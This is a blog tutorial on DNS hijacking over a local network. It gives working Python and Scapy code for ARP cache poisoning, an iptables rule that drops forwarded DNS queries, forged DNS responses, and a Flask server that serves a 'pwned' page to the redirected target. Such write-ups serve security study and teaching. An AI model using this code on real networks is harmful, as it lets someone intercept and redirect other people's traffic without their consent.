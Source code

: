 ```yaml
---
title: "Performing DNS Hijacking to Redirect Users to a Fake Website"
date: 2019-08-22
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Hijacking
  - ARP Spoofing
  - Scapy
---
```


# Introduction
In my previous post, we had a look at poisoning ARP caches which allowed us to intercept messages
being sent to and from the target. In this post, we utilize that to intercept all DNS requests of the
target and provide a spoofed reply pointing to a web server running on our machine.

# DNS
Everytime a user types in an URL into the browser or any web client, the client resolves or "translates" the URL into an IP address. It does this to identify where to send the corresponding HTTP request. To translate the URL into an IP address, the following steps take place:

1. The browser first queries the OS with the request asking if it knows the IP address,
2. the OS checks it's local cache and the HOSTS file which contains mappings between URLs and IP address,
3. if the OS does not find any mappings, it will query the local DNS resolver which is usually provided by your ISP,
4. the DNS resolver will also check if it has an answer. If it doesn't, it will recursivelly query
the nameservers till it receives a response from the nameserver responsible for the domain.  

Once the IP address is retreived, the client sends the HTTP request and displays the page returned.

# DNS Spoofing
Since we need the target's traffic to pass through our system, we need to poison both the router's and target's ARP cache. This can be done in the following manner.

```python
# Poison router's cache (Scapy will automatically fill in the ethernet frame with our MAC)
send(ARP(op=2, psrc=g_target_ip, pdst=g_router_ip, hwdst=router_mac), verbose=0)

# Poison target's cache
send(ARP(op=2, psrc=g_router_ip, pdst=g_target_ip, hwdst=target_mac), verbose=0)

# Sleep to prevent flooding
time.sleep(2)
```

Once we poison the ARP caches, the target's traffic passes through our system. Now we can control the traffic, i.e., we can decide on what to forward and what not to. By stopping all DNS queries from the target, we can then send a spoofed DNS response pointing to our system. This will cause the target to send an HTTP request to our machine. We can stop forwarding all DNS messages in the following manner.

```python
print("Enabling IP forwarding")
# Check to see if we are on linux
if (platform.system() == "Linux"):
  # Enable IP forwarding
  ipf = open('/proc/sys/net/ipv4/ip_forward', 'r+')
  ipf_read = ipf.read()
  if (ipf_read != '1\n'):
    ipf.write('1\n')
  ipf.close()

  # Disable DNS Query forwarding
  firewall = "iptables -A FORWARD -p UDP --dport 53 -j DROP"
  Popen([firewall], shell=True, stdout=PIPE)
```

Now, since all the DNS messages are dropped, we need to provide the target with a spoofed DNS response. Failing to do so can lead to DOS since the target will not be able to resolve the URL to any IP address. We can send a spoofed DNS answer in the following manner.

```python
if (pkt[IP].src == g_target_ip and
    pkt.haslayer(DNS) and
    pkt[DNS].qr == 0 and        # DNS Query
    pkt[DNS].opcode == 0 and    # DNS Standard Query
    pkt[DNS].ancount == 0       # Answer Count
    ):

  print("Sending spoofed DNS response")

  if (pkt.haslayer(IPv6)):
    ip_layer = IPv6(src=pkt[IPv6].dst, dst=pkt[IPv6].src)
  else:
    ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)

  # Create the spoofed DNS response (returning back our IP as the answer instead of the endpoint)
  dns_resp =  ip_layer/ \
        UDP(
          dport=pkt[UDP].sport,
          sport=53
          )/ \
        DNS(
          id=pkt[DNS].id,       # Same as query
          ancount=1,            # Number of answers
          qr=1,                 # DNS Response
          ra=1,                 # Recursion available
          qd=(pkt.getlayer(DNS)).qd,  # Query Data
          an=DNSRR(
            rrname=pkt[DNSQR].qname,  # Queried host name
            rdata=g_server_ip,        # IP address of queried host name
            ttl = 10
            )
          )

  # Send the spoofed DNS response
  print(dns_resp.show())
  send(dns_resp, verbose=0)
  print(f"Resolved DNS request for {pkt[DNS].qd.qname} by {g_server_ip}")
```

In the above code, *pkt* holds the DNS request intercepted by our machine. Using it, we send a DNS response saying that the URL maps to our IP address. Now since the target will start sending HTTP/HTTPS request to our machine, we need to respond to those with our webpage. A simple demonstration can be shown using Flask in the following manner.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def spoofed_page():
    return '<h1 align="center">You have been pwned!</h1>'

@app.route('/<path:dummy>')
def spoofed_dir(dummy):
  return '<h1 align="center">You have been pwned!</h1>'

if __name__ == '__main__':
  app.run(host='192.168.137.1', ssl_context='adhoc', port=443)
```
The host argument must be set to the IP address on which the webserver is being run on. Now any page accessed by the target will result in the above html being returned.

# Results
I am running the dns-hijacker and the web server on a Raspberry PI 3B+ with the target as my iPhone.

![dns-hijacker](../../assets/videos/dns-hijacker.gif)

Once the DNS hijacker and the web server are started, sending a request from my iPhone results in the following.

![pwned](../../assets/videos/pwned.gif)

We can see that a GET request to `victoria.dev` was successfully redirected to our webpage. yaaa. Note that the warning can be removed by supplying phony certificates, but that topic is for another post.

The full script is available on my github [page][page].

[page]: https://github.com/venkat-abhi/dns-redirector